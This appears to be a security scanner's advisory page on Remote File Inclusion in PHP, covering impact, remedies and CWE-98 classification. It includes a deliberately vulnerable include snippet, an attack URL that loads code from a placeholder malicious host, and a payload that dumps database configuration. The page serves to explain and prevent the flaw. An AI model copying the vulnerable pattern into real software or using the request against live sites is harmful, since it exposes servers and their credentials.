 # Remote File Inclusion (RFI)

<b>Severity</b>: <b><font color="red">High</font></b><br>
<b>Test name</b>: Remote File Inclusion (RFI)

<table id="simple-table">
    <tr>
        <th><strong>Summary</strong></th>
    </tr>
</table>
Remote File Inclusion is an attack applicable to web applications that dynamically include external files or scripts. When such web applications take user input (URL, parameter value, etc.) and pass them into file include commands, the web application might be tricked into including remote files with malicious code. As a result, the malicious code can be downloaded and executed on the server with the privileges of the current web server user.

<p>

<table id="simple-table">
    <tr>
        <th><strong>Impact</strong></th>
    </tr>
</table>

This vulnerability allows an attacker to:
* Execute an unauthorized code on the server side application
* Execute an unauthorized code on the client side application
* Gain sensitive information
* Crash the server

<p>

<table id="simple-table">
    <tr>
        <th><strong>Basic example of Remote File Inclusion (PHP)</strong></th>
    </tr>
</table>

1. Server side code:
```js
    <?php
    $file = 'form.php';
    if (isset($_REQUEST['file'])) {
        $file = $_REQUEST['file'];
    }
    include $file;
    ```
2. Request:
    ```
    https://your_web_site/preview.php?file=http://dangerous_web_site.com/malicious_code.php
    ```
3. Content of <i>"malicious_code.php"</i>
```js
<?php var_dump(include('../config/db.php'));
```
4. As a result, the attacker can steal the configuration of the database. 

<p>

<table id="simple-table">
    <tr>
        <th><strong>Location</strong></th>
    </tr>
</table>

* The issue can be found in the <b>source code</b> on the <b>server side</b>.
* The issue can be found in the <b>source code</b> on the <b>client side</b>.</li>

<p>

<table id="simple-table">
    <tr>
        <th><strong>Remedy suggestions</strong></th>
    </tr>
</table>

* The most effective solution is to avoid passing user-submitted input to any file system / framework API.
* If you have a limited number of the allowed files to include, all of them can be stored as corresponding records in long time storage (for example, database) with specific identifiers. Such identifiers can be used as the request parameters to identify and include only allowed files.
* If it is not possible to list the allowed files, and user input cannot be avoided, ensure that the supplied values are valid. Sanitize the input by creating a list of trusted files. Use the “whitelist” approach.

<p>

<table id="simple-table">
    <tr>
        <th><strong>Classifications</strong></th>
    </tr>
</table>

* CWE-98
* CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:L

<p>

<table id="simple-table">
    <tr>
        <th><strong>References</strong></th>
    </tr>
</table>

* <a href="http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion">http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion</a>
* <a href="https://en.wikipedia.org/wiki/File_inclusion_vulnerability">https://en.wikipedia.org/wiki/File_inclusion_vulnerability</a>